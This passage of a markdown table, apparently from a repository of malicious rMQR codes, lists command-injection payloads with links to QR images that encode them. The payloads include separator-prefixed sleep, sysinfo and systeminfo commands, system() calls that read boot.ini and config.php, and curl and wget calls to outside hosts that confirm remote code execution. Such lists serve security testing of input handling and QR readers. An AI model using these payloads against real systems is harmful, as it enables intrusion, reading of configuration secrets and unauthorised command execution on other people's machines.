 | `\| sleep 5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/346.png) |
| `; sleep 5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/347.png) |
| `& sleep 5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/348.png) |
| `&& sleep 5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/349.png) |
| `sleep 5` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/350.png) |
| `{${sleep(hexdec(dechex(20)))}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/352.png) |
| `sysinfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/353.png) |
| `\| sysinfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/354.png) |
| `; sysinfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/355.png) |
| `& sysinfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/356.png) |
| `&& sysinfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/357.png) |
| `system('cat C:\boot.ini');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/358.png) |
| `system('cat config.php');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/359.png) |
| `\|\| system('curl <https://crowdshield.com/.testing/rce_vuln.txt');`> | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/360.png) |
| `\| system('curl <https://crowdshield.com/.testing/rce_vuln.txt');`> | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/361.png) |
| `; system('curl https://crowdshield.com/.testing/rce_vuln.txt');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/362.png) |
| `& system('curl https://crowdshield.com/.testing/rce_vuln.txt');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/363.png) |
| `&& system('curl https://crowdshield.com/.testing/rce_vuln.txt');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/364.png) |
| `system('curl https://crowdshield.com/.testing/rce_vuln.txt')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/365.png) |
| `system('curl https://crowdshield.com/.testing/rce_vuln.txt?req=22fd2wdf')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/366.png) |
| `system('curl https://xerosecurity.com/.testing/rce_vuln.txt');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/367.png) |
| `systeminfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/368.png) |
| `\| systeminfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/369.png) |
| `; systeminfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/370.png) |
| `& systeminfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/371.png) |
| `&& systeminfo` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/372.png) |
| `system('ls')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/373.png) |
| `system('pwd')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/374.png) |
| `system('pwd');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/375.png) |
| `\|\| system('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/376.png) |
| `\| system('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/377.png) |
| `; system('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/378.png) |
| `& system('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/379.png) |
| `&& system('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/380.png) |
| `system('sleep 5')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/381.png) |
| `system('sleep 5');` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/382.png) |
| `system('wget https://crowdshield.com/.testing/rce_vuln.txt?req=22fd2w23')` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/383.png) |